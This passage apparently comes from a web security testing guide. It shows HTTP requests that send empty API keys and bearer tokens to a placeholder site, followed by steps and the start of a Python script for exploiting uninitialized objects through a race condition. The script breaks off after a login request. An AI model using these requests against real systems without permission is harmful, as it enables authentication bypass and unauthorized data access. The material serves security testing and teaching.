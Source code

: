        {"username":"test_user","email":"test@example.com","password":"password123"}
       
       # Request 2: API request with empty key
       GET /api/user/data HTTP/2
       Host: vulnerable-website.com
       Authorization: Bearer 
       
       # Or with array notation (PHP/Rails)
       GET /api/user/data?api-key[]= HTTP/2
       Host: vulnerable-website.com
       ```
       
    2. **Uninitialized object exploitation**:
       - Step 1: Identify multi-step object creation processes
       - Step 2: Analyze how objects are constructed and what default values might exist
       - Step 3: Prepare object creation request
       - Step 4: Prepare object access request with parameter values matching expected defaults
       - Step 5: Send the requests in a race condition pattern
       - Step 6: Check if access is granted using default/uninitialized values
       - Example Python script for testing uninitialized object exploitation:
       ```python
       import requests
       import threading
       import time
       
       def create_object(session, url, data):
           response = session.post(url, json=data)
           return response
       
       def access_object(session, url, params):
           # Small delay to ensure first request has started but not completed
           time.sleep(0.05)
           response = session.get(url, params=params)
           return response
       
       # Set up session
       session = requests.Session()
       session.headers = {
           "User-Agent": "Mozilla/5.0 ...",
           "Content-Type": "application/json"
       }
       
       # Login first if needed
       login_response = session.post(
           "https://vulnerable-website.com/login",
           json={"username": "test_user", "password": "password123"}
       )
       